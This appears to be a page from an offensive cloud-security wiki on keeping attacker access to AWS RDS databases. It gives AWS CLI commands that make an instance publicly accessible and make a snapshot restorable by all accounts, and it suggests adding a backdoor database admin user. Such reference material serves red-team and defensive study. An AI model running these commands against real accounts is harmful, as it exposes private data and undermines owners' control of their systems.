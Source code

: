 # AWS - RDS Persistence

## RDS

For more information check:

[[../../aws-services/aws-relational-database-rds-enum.md]]

### Make instance publicly accessible: `rds:ModifyDBInstance`

An attacker with this permission can **modify an existing RDS instance to enable public accessibility**.

```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```

### Create an admin user inside the DB

An attacker could just **create a user inside the DB** so even if the master users password is modified he **doesn't lose the access** to the database.

### Make snapshot public

```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```

